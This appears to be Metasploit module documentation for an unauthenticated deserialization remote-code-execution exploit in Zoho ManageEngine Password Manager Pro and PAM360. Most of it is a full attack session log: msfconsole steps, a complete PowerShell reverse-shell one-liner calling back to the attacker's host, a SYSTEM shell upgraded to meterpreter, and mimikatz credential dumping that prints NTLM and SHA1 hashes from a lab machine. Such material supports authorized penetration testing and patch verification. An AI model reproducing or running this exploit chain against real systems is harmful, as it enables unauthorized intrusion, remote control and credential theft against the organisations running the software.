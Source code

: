 ## Vulnerable Application
This module exploits a unauthenticated deserialization vulnerability in the XML RPC interface exposed by Zoho
ManageEngine Password Manager Pro before 12101 and PAM360 before 5510. Note that ManageEngine Access Manager Plus
before 4303 is also affected provided one provides credentials, however this is not targeted by this exploit.

Successful exploitation results in unauthenticated RCE as the `NT AUTHORITY\SYSTEM` user.

### Installation
Vulnerable software for testing can be downloaded [here](https://archives2.manageengine.com/passwordmanagerpro/12100/ManageEngine_PMP_64bit.exe).
The patch can be downloaded from [here](https://archives2.manageengine.com/passwordmanagerpro/12101/ManageEngine_PasswordManager_Pro_12100_to_12101.ppm)

When installing the software follow the defaults. You can skip the registration however or any parts where you need
to fill in additional details to continue (these should have a `Skip` button so you can skip them).

## Verification Steps
1. Follow the installation instructions above.
2. Start msfconsole
3. Do: `use exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce`
4. Do: `set RHOSTS [IP]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Optional: `set LPORT [local port to listen on]`
10. Do: `exploit`

## Options

## Targets
```
Id  Name
--  ----
0   Windows EXE Dropper
1   Windows Command
2   Windows Powershell
```

## Scenarios
### ManageEngine Password Manager Pro 12100 Running on Windows 11
```
msf payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce
[*] Using configured payload cmd/windows/reverse_powershell
msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set RHOSTS 172.17.245.94
RHOSTS => 172.17.245.94
msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set LHOST 172.17.255.112 
LHOST => 172.17.255.112
msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set LPORT 8899
LPORT => 8899
msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > show options

Module options (exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.17.245.94    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metas
                                         ploit
   RPORT      7272             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                         machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/windows/reverse_powershell):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.17.255.112   yes       The listen address (an interface may be specified)
   LPORT  8899             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command


msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > exploit

[*] Started reverse TCP handler on 172.17.255.112:8899 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Windows Command for cmd/windows/reverse_powershell
[+] Successfully executed command: powershell -w hidden -nop -c $a='172.17.255.112';$b=8899;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}
[*] Command shell session 1 opened (172.17.255.112:8899 -> 172.17.245.94:56612) at 2022-08-02 11:37:28 -0500


Shell Banner:
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\ManageEngine\PMP\bin>
-----
          

C:\Program Files\ManageEngine\PMP\bin>whoami
whoami
nt authority\system

C:\Program Files\ManageEngine\PMP\bin>background

Background session 1? [y/N]  y   
msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                      Connection
  --  ----  ----               -----------                                      ----------
  1         shell cmd/windows  Shell Banner: Microsoft Windows [Version 10.0.2  172.17.255.112:8899 -> 172.17.245.94:56612 (172.
                               2000.795] (c) Microsoft Corpo...                 17.245.94)

msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.255.112:4433 
msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > 
[*] Sending stage (200774 bytes) to 172.17.245.94
[*] Meterpreter session 2 opened (172.17.255.112:4433 -> 172.17.245.94:56631) at 2022-08-02 11:38:11 -0500
[*] Stopping exploit/multi/handler

msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                   Connection
  --  ----  ----                     -----------                                   ----------
  1         shell cmd/windows        Shell Banner: Microsoft Windows [Version 10.  172.17.255.112:8899 -> 172.17.245.94:56612 (1
                                     0.22000.795] (c) Microsoft Corpo...           72.17.245.94)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN11-TEST              172.17.255.112:4433 -> 172.17.245.94:56631 (1
                                                                                   72.17.245.94)

msf exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain      NTLM                              SHA1
--------  ------      ----                              ----
admin     WIN11-TEST  209c6174da490caeb422f3fa5a7ae634  7c87541fd3f3ef5016e12d411900c87a6046a8e8

wdigest credentials
===================

Username     Domain      Password
--------     ------      --------
(null)       (null)      (null)
WIN11-TEST$  WORKGROUP   (null)
admin        WIN11-TEST  (null)

kerberos credentials
====================

Username     Domain      Password
--------     ------      --------
(null)       (null)      (null)
admin        WIN11-TEST  (null)
win11-test$  WORKGROUP   (null)


meterpreter > 
```
